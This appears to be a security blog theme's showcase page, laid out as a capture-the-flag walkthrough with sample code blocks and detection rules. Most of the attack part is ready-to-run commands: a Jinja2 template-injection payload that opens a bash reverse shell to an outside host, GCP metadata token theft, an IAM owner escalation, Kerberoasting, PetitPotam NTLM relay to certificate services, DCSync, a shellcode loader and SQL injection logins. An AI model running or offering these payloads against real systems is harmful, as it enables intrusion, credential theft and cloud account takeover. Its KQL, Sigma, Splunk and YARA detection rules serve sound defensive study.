

## Notice Box Showcase

{{< notice-small "golden" "mhm.webp" "Flag: HTB{s0m3_fl4g_h3re}" >}}























---



## Reconnaissance



### Nmap Full TCP Scan

```azcli
nmap -sC -sV -p- --min-rate 5000 -oA fullchain 10.10.110.0/24
```

### Directory Bruteforce

```awscli
feroxbuster -u http://10.10.110.10 -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -x php,html,txt --depth 3
```

## Web Application SSTI to RCE

### Identifying Template Engine

```gcpcli
username = "{{7*7}}"
# Response shows: Hello 49 — confirmed Jinja2
```

---

### Reverse Shell via SSTI

```python
{{request.application.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/10.10.14.5/4444 0>&1"').read()}}
```

## Docker Escape via GCP Metadata

### Container Enumeration

```bash
cat /proc/1/cgroup | grep docker
curl -s -H "Metadata-Flavor: Google" http://169.254.169.254/computeMetadata/v1/instance/service-accounts/default/token
```

### GCP Privilege Escalation via Service Account

```bash
gcloud projects add-iam-policy-binding target-project \
  --member="serviceAccount:pwned@target-project.iam.gserviceaccount.com" \
  --role="roles/owner"
```

## Lateral Movement to Windows

### Kerberoasting

```bash
impacket-GetUserSPNs 'fullchain.htb/svc_web:Password123' -dc-ip 10.10.110.5 -outputfile kerberoast.hash
hashcat -m 13100 kerberoast.hash /usr/share/wordlists/rockyou.txt
```

## Active Directory ADCS ESC8



### Coercing NTLM Auth via PetitPotam

```bash
python3 PetitPotam.py -u svc_web -p Password123 10.10.14.5 10.10.110.5
```

### Relaying to ADCS Web Enrollment

```bash
impacket-ntlmrelayx -t http://10.10.110.10/certsrv/certfnsh.asp \
  --adcs --template DomainController
```

## Azure AD Pass-Through Auth Abuse

### MSOL Account Enumeration

```powershell
Get-ADUser -Filter {SamAccountName -like "MSOL_*"} -Properties *
```

### DCSync via MSOL Account

```bash
impacket-secretsdump 'fullchain.htb/MSOL_abc123:FoundPassword@10.10.110.5' -just-dc
```

## Detection Engineering

### KQL — ADCS Abuse Detection

**Hi this is a test text.**

```kql
SecurityEvent
| where EventID == 4886
| where TemplateOID has "1.3.6.1.4.1.311.21.8"
| project TimeGenerated, Computer, SubjectUserName, TemplateOID
```

### Sigma Rule — PetitPotam Detection

```sigma
title: PetitPotam NTLM Coercion
status: stable
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 4624
        LogonType: 3
        AuthenticationPackageName: NTLM
        WorkstationName|contains: 'DC'
    condition: selection
```

### Splunk SPL — Kerberoast Detection

```splunk
index=windows EventCode=4769 ServiceName!="*$" TicketEncryptionType=0x17
| stats count by src_ip, ServiceName, Account_Name
| where count > 3
| sort -count
```

### Elasticsearch — Lateral Movement

```elasticsearch
event.category: authentication AND
event.action: logged-in AND
source.ip: (10.10.0.0/16) AND
winlog.event_data.LogonType: 3
```

## Go Metadata Client

```go
package main

import (
    "fmt"
    "io"
    "net/http"
)

func fetchMetadata(path string) string {
    req, _ := http.NewRequest("GET",
        "http://metadata.google.internal/computeMetadata/v1/"+path, nil)
    req.Header.Set("Metadata-Flavor", "Google")
    resp, _ := http.DefaultClient.Do(req)
    defer resp.Body.Close()
    body, _ := io.ReadAll(resp.Body)
    return string(body)
}

func main() {
    token := fetchMetadata("instance/service-accounts/default/token")
    fmt.Println(token)
}
```

## C Sharp Shellcode Loader

```csharp
using System;
using System.Runtime.InteropServices;

class Loader {
    [DllImport("kernel32.dll")]
    static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize,
        uint flAllocationType, uint flProtect);

    static void Main() {
        byte[] sc = Convert.FromBase64String("SHELLCODE_HERE");
        IntPtr mem = VirtualAlloc(IntPtr.Zero, (uint)sc.Length, 0x3000, 0x40);
        Marshal.Copy(sc, 0, mem, sc.Length);
    }
}
```

## C++ Shellcode

```cpp
#include <cstdlib>
#include <windows.h>
int main() {
    void* mem = VirtualAlloc(0, 4096, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    system("/bin/sh");
    return 0;
}
```

## Cloud Detection Queries

### AWS Athena CloudTrail

```awsathena
SELECT useridentity.arn, eventname, count(*) as cnt
FROM cloudtrail_logs
WHERE eventsource = 'iam.amazonaws.com'
  AND eventname IN ('CreateAccessKey','AttachUserPolicy','PutUserPolicy')
GROUP BY 1,2 ORDER BY cnt DESC
LIMIT 50
```

### AWS Lambda Recon Function

```awslambda
import boto3
def handler(event, ctx):
    iam = boto3.client('iam')
    return iam.list_attached_user_policies(UserName=event['user'])
```

### HTTP Request (Burp)

```burp
POST /login HTTP/1.1
Host: target.htb
Content-Type: application/x-www-form-urlencoded

username=admin'--&password=x
```

## Flags

| Flag      | Value                                | Location                                  |
| --------- | ------------------------------------ | ----------------------------------------- |
| Web RCE   | `HTB{sst1_t0_rce_n0t_s0_h4rd}`       | `/var/www/html/flag.txt`                  |
| GCP Cloud | `GCP{s3rv1c3_acc0unt_pr1v3sc_0wned}` | `gs://ctf-flags/cloud.txt`                |
| User      | `HTB{p3t1t_p0t4m_str1k3s_4g41n}`     | `C:\Users\svc_backup\Desktop\user.txt`    |
| Root / DA | `HTB{g0ld3n_t1ck3t_d0m41n_0wn3d}`    | `C:\Users\Administrator\Desktop\root.txt` |

## Lessons Learned

**Never expose ADCS Web Enrollment with NTLM auth.** ESC8 is trivially exploitable with PetitPotam. GCP Metadata endpoints accessible from containers is a critical misconfiguration. Azure AD Connect MSOL accounts are Domain Admin equivalents — treat them accordingly.

> **Note:** Always verify your attack path in a lab environment before attempting in production. ESC8 + PetitPotam is highly detectable — EDR will fire on the coercion attempt.

> Chain your findings: SSTI → container escape → GCP metadata → domain pivot. Each step builds on the last.

---

## Tag Showcase

Below are all available tags for categorizing posts:

| Tag              | Color     | Use Case                           |
| ---------------- | --------- | ---------------------------------- |
| HackTheBox       | `#9fef00` | HTB machines, pro labs, challenges |
| TryHackMe        | `#c20909` | THM rooms and learning paths       |
| PwnedLabs        | `#8a2be2` | PwnedLabs cloud attack scenarios   |
| PortSwigger      | `#ff6633` | Web Security Academy labs          |
| HackingHub       | `#5c1a8a` | HackingHub CTF challenges          |
| Azure            | `#0178bc` | Azure / Entra ID / M365            |
| CyberDefenders   | `#2f58dc` | Blue team challenges               |
| GCP              | `#4285F4` | Google Cloud Platform              |
| AWS              | `#FF9900` | Amazon Web Services                |
| News             | `#e53935` | Cyber news and advisories          |
| Phishing         | `#3aafa9` | Phishing kit analysis              |
| Blog             | `#7b4f2e` | Opinion and blog posts             |
| Cheatsheet       | `#2e8b6e` | Quick reference sheets             |
| Notes            | `#6b8e9f` | Personal study notes               |
| Cybr             | `#89D4FF` | Cybr.com platform content          |
| Forensics        | `#355872` | Digital Forensics & IR             |
| Malware          | `#891652` | Malware analysis & RE              |
| SOC              | `#6367FF` | SOC operations & alerting          |
| Threat Hunt      | `#088395` | Proactive threat hunting           |
| Threat Intel     | `#36064D` | Cyber Threat Intelligence          |
| Misc             | `#F5D2D2` | Miscellaneous content              |
| DevOps           | `#FFD700` | DevSecOps & pipelines              |
| Pentest          | `#ED3500` | Penetration testing                |
| Active Directory | `#81A6C6` | AD attacks & defense               |
| Cryptohack       | `#FFA95A` | Cryptography challenges            |
| Hack Smarter     | `#2C2C2C` | Tools, tips & tradecraft           |

## New Code Block Languages

### CMD

```cmd
>_ ipconfig /all
>_ net user /domain
>_ whoami /priv
```

### YARA Rule

```yara
rule Ransomware_Generic {
    meta:
        author = "BluRRedSec"
        description = "Detects generic ransomware patterns"
    strings:
        $ext1 = ".locked" ascii
        $ext2 = ".encrypted" ascii
        $ransom = "Your files have been encrypted" ascii nocase
        $shadow = "vssadmin delete shadows" ascii nocase
    condition:
        any of ($ext*) and any of ($ransom, $shadow)
}
```

### Sigma Rule

```sigma
title: Suspicious PowerShell Encoded Command
status: experimental
logsource:
    product: windows
    service: powershell
detection:
    selection:
        EventID: 4104
        ScriptBlockText|contains: '-EncodedCommand'
    condition: selection
falsepositives:
    - Legitimate admin scripts
level: medium
```

### JSON Config

```json
{
  "target": "10.10.110.5",
  "port": 445,
  "credentials": {
    "username": "Administrator",
    "hash": "aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c"
  },
  "options": {
    "smb_signing": false,
    "relay": true
  }
}
```

### YAML Pipeline

```yaml
name: Security Scan
on: [push, pull_request]
jobs:
  scan:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v3
      - name: Run Semgrep
        run: semgrep --config=auto .
      - name: SAST Check
        uses: github/codeql-action/analyze@v2
```

### Markdown Notes

```markdown
# HTB FullChain Notes

## Key Findings

- SSTI via Jinja2 template injection in login form
- Docker breakout via GCP metadata service
- ADCS ESC8 exploitable with PetitPotam

## Tools Used

- `feroxbuster` — directory bruteforce
- `impacket-ntlmrelayx` — NTLM relay to ADCS
- `impacket-secretsdump` — DCSync via MSOL account

> **Tip:** Always check for cloud metadata endpoints from inside containers.
```

### MITRE ATT&CK Mapping

```mitre
T1190 - Exploit Public-Facing Application (SSTI → RCE)
T1552.005 - Cloud Instance Metadata API (GCP metadata token theft)
T1187 - Forced Authentication (PetitPotam NTLM coercion)
T1649 - Steal or Forge Authentication Certificates (ADCS ESC8)
T1003.006 - DCSync (via MSOL account)
T1558.003 - Kerberoasting (SPN enumeration + hash crack)
```

### HTTP Request

```burp
POST /api/v1/authenticate HTTP/1.1
Host: target.htb
Content-Type: application/json
Authorization: Bearer eyJhbGci...

{"username":"admin","password":"' OR 1=1--"}
```
